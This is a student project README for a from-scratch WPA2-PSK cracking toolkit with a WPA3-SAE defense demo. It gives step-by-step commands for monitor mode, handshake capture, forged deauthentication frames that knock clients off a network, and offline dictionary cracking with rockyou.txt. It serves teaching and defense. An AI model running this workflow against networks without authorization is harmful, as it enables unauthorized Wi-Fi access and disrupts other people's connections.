

# CSE406 — WPA2 Wi-Fi Password Cracking (Topic 20)

A from-scratch **WPA2-PSK** attack: capture a Wi-Fi 4-way handshake off the air, then crack it
**offline** against a wordlist — with a **defense** demo showing the same attack fails against WPA3-SAE.
The cracking crypto (EAPOL parsing, PMK/PTK/KCK derivation, MIC verification) is entirely our own, with
**no aircrack-ng / hashcat / pyrit / hcxtools**; `scapy` is used only to sniff and craft raw 802.11 frames.

> **Authorized lab / educational use only.** Run these tools only against networks you own or have
> explicit written permission to test.

## Team

- **Nabiha Tahseen**
- **Mosharaf Hossain Apurbo**

## Repository layout

Each `version-*` folder is a snapshot of the project as it evolved; the commit history runs
`version-0 → version-5` so the git log reads as the project's progression.

| Version | Contents |
|---------|----------|
| `version-0` | Planning & research: project spec, research strategy, Wi-Fi deep-dive guide, aircrack-ng workflow |
| `version-1` | Initial capture/crack/deauth scripts (developed on an Azure VM) |
| `version-2` | Local capture toolset + sniff test + WPA2 study guide |
| `version-3` | Modular refactor: `config`, `handshake`, `crack`, with tests |
| `version-4` | Runs against real field captures; client discovery + workflow docs |
| `version-5` | **Latest** — defense demo, WPA3 demo, and the LaTeX design report |

The current, most complete code lives in [`version-5/code`](version-5/code). Its usage guide is folded
into this README below.

## Not tracked in git

Excluded via `.gitignore` and must be provided locally:

- **`rockyou.txt`** — the ~133 MB public wordlist; download separately and place where each version expects it.
- `__pycache__/` and `*.pyc`, packet artifacts (`*.cap`, `*.csv`, `*.netxml`, `*.kismet.*`), and LaTeX build files.

---

# Latest version (`version-5`) — usage guide

> Paths below (`code/…`, `../defense_readme.md`) are **relative to the `version-5/` folder**. Run the
> commands from inside `version-5/`.

A from-scratch **WPA2-PSK** attack: capture a Wi-Fi 4-way handshake off the air, then crack it
**offline** against a wordlist. The cracking math — EAPOL parsing, PMK/PTK/KCK derivation, MIC
verification (`handshake.py`, `crack.py`) — is entirely our own, with **no aircrack-ng / hashcat /
pyrit / hcxtools**. `scapy` is used only by `capture.py` / `deauth.py` to sniff and craft raw 802.11
frames. `wpa3_demo.py` is the **defense**: it reruns the same attack against WPA3-SAE and shows it fails.

## Setup & pipeline



## Files

| File | Role |
|---|---|
| `config.py` | **The only file you edit.** All target/interface/file settings for every script. |
| `capture.py` | Passively sniffs the monitor interface for the target BSSID and saves a usable handshake. Never sends deauth itself. (needs `scapy`, root) |
| `deauth.py` | Optional accelerator: forges 802.11 deauth frames to force a client to reconnect. (needs `scapy`, root, `CLIENT_MAC`) |
| `handshake.py` | Parses the `.cap` into candidate 4-way handshakes. Pure stdlib. |
| `crack.py` | PMK/PTK/MIC crypto + the `info` / `single` / `wordlist` CLI. Pure stdlib. |
| `wpa3_demo.py` | Defense demo: same attack vs a WPA3-SAE capture → NO MATCH. (needs `cryptography`) |
| `test_crack.py` | Regression tests for the parser and crypto. Pure stdlib. |

## Requirements

- **Cracking** (`crack.py`, `handshake.py`, `test_crack.py`): just Python 3.9+, pure standard library.
- **Capturing** (`capture.py`, `deauth.py`): also `scapy`, run as root — install system-wide so `sudo`'s
  Python sees it: `sudo apt install python3-scapy`.
- **Defense demo** (`wpa3_demo.py`): the `cryptography` package (ships with scapy).

## config.py — the knobs

```python
SSID              = "Redmi Note 11"        # exact network name (PBKDF2 salt — must match exactly)
BSSID             = "36:94:5e:43:f9:4d"    # target AP MAC (filters which frames belong to the AP)
CHANNEL           = 11                      # AP channel (used when you set monitor-mode channel)
CLIENT_MAC        = ""                      # client to deauth — required only by deauth.py
MONITOR_INTERFACE = "wlan0mon"             # monitor-mode interface name
CAPTURE_FILE      = "capture-01.cap"        # .cap filename (kept at repo root)
WORDLIST_FILE     = "testlist.txt"          # wordlist filename (kept at repo root)
```

`SSID` and `BSSID` **must** match the captured network. `CAPTURE_FILE` / `WORDLIST_FILE` are resolved
against the version folder automatically, so you run the scripts from anywhere inside it.

---

## Commands, step by step

Run everything from inside `version-5/` (the folder that contains `code/`, `capture-01.cap`,
`testlist.txt`). See `code/commands.txt` for the exact copy-paste sequence used on our test hardware.

### 1. Put the card in monitor mode
Stops NetworkManager fighting for the card and creates `wlan0mon` on the AP's channel. **Your normal
Wi-Fi drops here** — restored in step 6.
```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0 11          # 11 = your CHANNEL
sudo iw dev wlan0mon set channel 11     # make sure the monitor iface is on that channel
```

### 2. Capture a handshake — `capture.py`
Passively watches the target BSSID and saves `CAPTURE_FILE` as soon as one client completes
Msg1+Msg2 (then waits ≤5 s for a confirming Msg3+Msg4). Prints `[+] Msg{1-4}/4 from <MAC>` as it goes,
and exits on its own. **No options** — it reads everything from `config.py`.
```bash
sudo python3 code/capture.py
```

### 3. (Optional) Force a reconnect — `deauth.py`
Run in a **second terminal while `capture.py` is still running**. Forges two deauth frames (one to the
client spoofing the AP, one to the AP spoofing the client), 10 bursts, 100 ms apart, so the client
reconnects immediately and re-runs the handshake. Requires `CLIENT_MAC` set in `config.py`.
```bash
sudo python3 code/deauth.py
```
Tunables live at the top of `deauth.py`: `COUNT` (bursts, default 10) and `REASON` (802.11 reason
code, default 7).

### 4. Inspect the capture — `crack.py info`
Parses `CAPTURE_FILE`, filters to `BSSID`, and prints how many candidate handshakes were found plus the
best one's details (client MAC, ANonce/SNonce/MIC, `Complete 4-way`, descriptor version). Use it to
confirm a usable handshake exists before cracking.
```bash
python3 code/crack.py info
```

### 5. Test one password — `crack.py single`
Prints `MATCH` (exit 0) or `NO MATCH` (exit 1) for a single guess.
```bash
python3 code/crack.py single "27111998"
```

### 6. Dictionary attack — `crack.py wordlist`
Streams `WORDLIST_FILE` across all CPU cores and stops at the first match, printing `KEY FOUND!`.
```bash
python3 code/crack.py wordlist
python3 code/crack.py wordlist --wordlist "RockYou Password List/rockyou.txt"   # bigger list
```

**`crack.py` options** (all subcommands accept the common ones):

| Option | Applies to | What it does |
|---|---|---|
| `--capture PATH` | all | Use a different `.cap` file instead of `config.CAPTURE_FILE`. |
| `--ssid NAME` | all | Override the SSID (the PBKDF2 salt). |
| `--bssid MAC` | all | Override the target AP MAC. |
| `--wordlist PATH` | `wordlist` | Use a different wordlist file. |
| `--processes N` | `wordlist` | Worker processes (default: CPU count). |
| `--chunk-size N` | `wordlist` | Passwords per work unit (default: 2000). |

### 7. Restore normal networking
```bash
sudo airmon-ng stop wlan0mon
sudo systemctl restart NetworkManager
```

### Troubleshooting — Wi-Fi dead / card stuck after monitor mode
If Wi-Fi doesn't come back (no networks, card unresponsive) after step 7, reload the driver. For the
MediaTek MT7921 card, unload and reload the module:
```bash
sudo modprobe -r mt7921e
sudo modprobe mt7921e
```
If `modprobe -r` complains that the module is in use, unload its dependencies together, then reload:
```bash
sudo modprobe -r mt7921e mt7921_common mt792x_lib mt76_connac_lib mt76
sudo modprobe mt7921e
```
Then `sudo systemctl restart NetworkManager` again if needed.

---

## Defense demo — `wpa3_demo.py`

Shows the offline attack **fails against WPA3-SAE**. Capture a handshake from a **WPA3-Personal-only**
network (update `config.py` first), then:
```bash
python3 code/wpa3_demo.py info                       # classifies WPA2 vs WPA3-SAE
python3 code/wpa3_demo.py single "<the real password>"   # → NO MATCH, even for the correct password
python3 code/wpa3_demo.py wordlist                   # → no match in the whole list
```
It implements the AES-128-CMAC MIC that WPA3 uses (so the failure can't be blamed on missing code) and
reuses `crack.py`'s exact derivation — yet nothing matches, because in SAE the PMK comes from a live
elliptic-curve exchange, not from the passphrase. Accepts the same `--capture` / `--ssid` / `--bssid` /
`--wordlist` options as `crack.py`. Full write-up in `code/defense_readme.md`.

## Tests

```bash
python3 code/test_crack.py -v
```
Checks the `.cap` parses, a handshake is found for the configured SSID/BSSID, all fields have correct
lengths, the crypto is deterministic, and a wrong password is rejected.

## Quick start

```bash
# 0. no capture yet? do steps 1–3 above first.
python3 code/test_crack.py -v          # sanity-check parsing + crypto
python3 code/crack.py info             # confirm a handshake was found
python3 code/crack.py single "guess"   # (optional) try one password
python3 code/crack.py wordlist         # full dictionary attack
```
